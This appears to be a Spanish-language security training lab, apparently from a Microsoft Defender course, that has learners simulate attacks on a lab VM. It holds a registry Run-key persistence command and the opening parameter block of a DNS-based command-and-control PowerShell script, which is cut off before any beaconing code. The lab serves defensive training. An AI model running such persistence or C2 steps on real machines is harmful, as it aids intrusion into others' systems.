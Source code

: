 ### Tarea 1: atacar Windows configurado con Defender para puntos de conexión

En esta tarea, realizarás ataques en un host con Microsoft Defender para un punto de conexión configurado.

1. Inicia sesión en la máquina virtual `WIN1` como administrador con la contraseña: **Pa55w.rd**.  

1. En la búsqueda de la barra de tareas, escribe *Comando*.  El símbolo del sistema se mostrará en los resultados de la búsqueda.  Haz clic con el botón derecho en el símbolo del sistema y selecciona **Ejecutar como administrador**. Confirma las indicaciones del Control de cuentas de usuario que aparezcan.

1. En el símbolo del sistema, escribe el comando en cada fila presionando la tecla Entrar después de cada fila:

    ```CommandPrompt
    cd \
    mkdir temp
    cd temp
    ```

1. Copia y ejecuta este comando:

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

### Tarea 2: crear un ataque C2 (comando y control)

1. Inicia sesión en la máquina virtual `WIN1` como administrador con la contraseña: **Pa55w.rd**.  

1. En la búsqueda de la barra de tareas, escribe *Comando*.  El símbolo del sistema se mostrará en los resultados de la búsqueda.  Haz clic con el botón derecho en el símbolo del sistema y selecciona **Ejecutar como administrador**. Confirma las indicaciones del Control de cuentas de usuario que aparezcan.

1. Ataque 2: copiar y ejecutar este comando:

    ```CommandPrompt
    notepad c2.ps1
    ```

Selecciona **Sí** para crear un nuevo archivo y copia el siguiente script de PowerShell en c2.ps1 y selecciona **Guardar**.

>**Nota:** Pegar en la máquina virtual puede tener una longitud limitada.  Pégalo en tres secciones para asegurarte de que todo el script se pegue en la máquina virtual.  Asegúrate de que el script tiene el mismo aspecto que en estas instrucciones en el archivo c2.ps1 del Bloc de notas.

    ```PowerShell
    
    param(
        [string]$Domain = "microsoft.com",
        [string]$Subdomain = "subdomain",
        [string]$Sub2domain = "sub2domain",
        [string]$Sub3domain = "sub3domain",
        [string]$QueryType = "TXT",
            [int]$C2Interval = 8,
            [int]$C2Jitter = 20,
            [int]$RunTime = 240
    )
    